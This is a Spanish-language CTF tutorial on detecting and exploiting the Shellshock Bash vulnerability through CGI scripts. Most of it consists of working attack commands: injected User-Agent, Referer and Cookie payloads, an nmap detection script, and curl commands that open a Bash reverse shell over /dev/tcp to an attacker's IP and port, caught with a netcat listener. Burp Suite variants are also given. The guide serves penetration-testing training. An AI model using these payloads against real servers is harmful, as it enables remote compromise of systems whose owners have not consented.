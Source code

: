 
# 🐚 Shellshock - Detección y Explotación en CTF

## Índice
- [¿Cómo detectar un posible Shellshock?](#cómo-detectar-un-posible-shellshock)
- [¿En qué consiste?](#en-qué-consiste)
- [Reconocer pistas en HTTP](#reconocer-pistas-en-http)
- [Ejemplo de payload para probar](#ejemplo-de-payload-para-probar)
- [¿Cómo se inyectan?](#cómo-se-inyectan)
- [¿Qué hace el payload?](#qué-hace-el-payload)
- [¿Qué necesitas?](#qué-necesitas)
- [Ejemplo real](#ejemplo-real)
- [Notas adicionales](#notas-adicionales)
- [Advertencia](#advertencia)

---

## 🕵️‍♂️ ¿Cómo detectar un posible Shellshock?

Después de enumerar una máquina, si encontramos un servicio HTTP y realizamos un fuzzing, podemos descubrir una ruta como:

    /cgi-bin

Esto nos da pie para probar este tipo de ataque, ya que los scripts CGI suelen interactuar con Bash.

---

## 🛠️ ¿En qué consiste?

Shellshock permite que un atacante ejecute código arbitrario en el sistema, aprovechando cómo Bash procesa ciertas variables de entorno.

👉 El problema es que Bash permitía definir funciones en variables de entorno, pero continuaba interpretando código tras la función, permitiendo ejecución arbitraria.

Ejemplo:

    env X='() { :;}; echo Vulnerable' bash -c "echo Test"

Si el sistema es vulnerable, mostrará:

    Vulnerable
    Test

👉 Se ejecutó el `echo Vulnerable` fuera de la función.

---

## 🔍 Reconocer pistas en HTTP

Si encuentras una URL sospechosa (por ejemplo `/cgi-bin/test.cgi`), puedes probar inyecciones en las siguientes cabeceras HTTP:

- User-Agent
- Referer
- Cookie

👉 Estas cabeceras a veces se pasan como variables de entorno a los scripts CGI.

---

## 🧪 Ejemplo de payload para probar

    () { :; }; echo; echo; /bin/bash -c "echo VULNERABLE"

O con cabecera:

    User-Agent: () { :; }; echo; echo; /bin/bash -c "id"

### Usar Nmap para automatizar:

    nmap --script http-shellshock --script-args uri=/cgi-bin/test.cgi -p 80 <IP>

---

## 🚀 ¿Cómo se inyectan?

Como hemos dicho, normalmente en la cabecera User-Agent, pero también puede funcionar en Referer o Cookie.

### Ejemplo de inyección con curl:

    curl --silent -k \
      -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<TU IP>/<TU PUERTO EN ESCUCHA> 0>&1" \
      "https://172.17.0.2:<PUERTO SI SE NECESITA>/cgi-bin/<RECURSO>.cgi"

### Desglose del comando:

| Parte del comando                                   | Significado                                                       |
|----------------------------------------------------|-------------------------------------------------------------------|
| curl                                               | Cliente para hacer peticiones HTTP                                |
| --silent                                           | No muestra progreso ni información extra                          |
| -k                                                 | Permite conexiones HTTPS sin verificar certificado (útil en CTFs) |
| -H                                                 | Añade una cabecera HTTP personalizada                             |
| User-Agent: ...                                    | Cabecera que contiene el payload de Shellshock                    |
| () { :; };                                         | Inicia la función vacía y luego el código malicioso               |
| /bin/bash -i >& /dev/tcp/<TU IP>/<TU PUERTO> 0>&1  | Intenta abrir una reverse shell hacia tu máquina                  |
| URL final                                          | El recurso vulnerable (normalmente en /cgi-bin/)                  |

---

## 🎯 ¿Qué hace el payload?

Está enviando un User-Agent que explota Shellshock.

Si el servidor es vulnerable, ejecutará:

    /bin/bash -i >& /dev/tcp/<TU IP>/<TU PUERTO> 0>&1

👉 Esto crea una reverse shell (una conexión interactiva de Bash de vuelta a tu máquina).

---

## 🚦 ¿Qué necesitas?

### 1️⃣ Tener un listener en tu máquina:

    nc -lvnp <TU PUERTO EN ESCUCHA>

### 2️⃣ Reemplazar en el curl:

- <TU IP> → tu IP (por ejemplo: 10.10.14.23 si usas HackTheBox)
- <TU PUERTO> → puerto en el que tienes nc escuchando (por ejemplo 4444)
- <PUERTO SI SE NECESITA> → si el server usa un puerto especial (443, 8443, etc.)
- <RECURSO> → el CGI vulnerable (por ejemplo: test.cgi)

---

## 🧑‍💻 Ejemplo real

### En escucha en tu máquina:

    nc -lvnp 4444

### Payload:

    curl --silent -k \
      -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.23/4444 0>&1" \
      "https://172.17.0.2/cgi-bin/test.cgi"

👉 Si todo sale bien, recibirás una shell interactiva en tu Netcat. 🚀

---

## 📝 Notas adicionales

✅ El ataque también puede realizarse desde Burp Suite, con una cabecera como:

    User-Agent: () { ignored;}; /bin/bash -i >& /dev/tcp/<IP>/<PUERTO> 0>&1

✅ No es necesario probar directamente con reverse shell; puedes empezar con comandos simples como:

    User-Agent: () { ignored;}; /bin/bash -c "id"

Si ves una salida como:

    uid=33(www-data) gid=33(www-data) groups=33(www-data)

→ ¡El servidor es vulnerable!

---


